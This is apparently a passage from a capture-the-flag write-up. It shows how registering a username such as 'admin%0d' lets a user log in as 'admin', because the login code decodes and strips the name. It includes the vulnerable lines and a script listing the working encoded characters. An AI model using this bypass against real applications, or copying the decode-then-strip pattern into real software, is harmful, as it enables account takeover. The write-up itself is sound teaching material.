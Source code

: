 The vulnerability lies on this portion of code `username = unquote(form.username.data).strip()`. Okay lets take a look at register again, let say we register a username named `admin%0d` and `password123` as password, then the system create the account and saved it to the database. After that, on login page, the system make a query to database to check if the user is exist or not `user = User.query.filter_by(username=form.username.data).first()` which will be `user = User.query.filter_by(username="admin%0d").first()`. Then it will validate the provided password and password from database. If the both credential are correct, it will run two vulnerable misconfiguration code:

```python
username = unquote(form.username.data).strip()
user = User.query.filter_by(username=username).first()
```
`unquote` will decode url encoded string to normal string, then strip any trailing character from it. Thats why `admin%0d` will become `admin`, so when `login_user(user)` executed, it will login based on `admin` account.

```python
>>> from urllib.parse import *
>>> unquote("admin%0D").strip()
'admin'
```

I ran a simple and quick test to check what else we can put rather that CRLF and space, so I got like 10 results.

```python
   1   │ from urllib.parse import *
   2   │ 
   3   │ for i in range(128):
   4   │     ascii_hex = "{0:0{1}x}".format(i,2)
   5   │     username = f"admin%{ascii_hex}"
   6   │     unquotes = unquote(username).strip()
   7   │ 
   8   │     if unquotes == "admin":
   9   │         print(f"{username} : {unquotes}")
```

```bash
❯ python3 test.py

admin%09 : admin
admin%0a : admin
admin%0b : admin
admin%0c : admin
admin%0d : admin
admin%1c : admin
admin%1d : admin
admin%1e : admin
admin%1f : admin
admin%20 : admin
```

[img2]:{{site.baseurl}}/ctfs/WargamesMY2022/C0mmand33r/images/login.png
[img3]:{{site.baseurl}}/ctfs/WargamesMY2022/C0mmand33r/images/sam.png
[img4]:{{site.baseurl}}/ctfs/WargamesMY2022/C0mmand33r/images/error.png
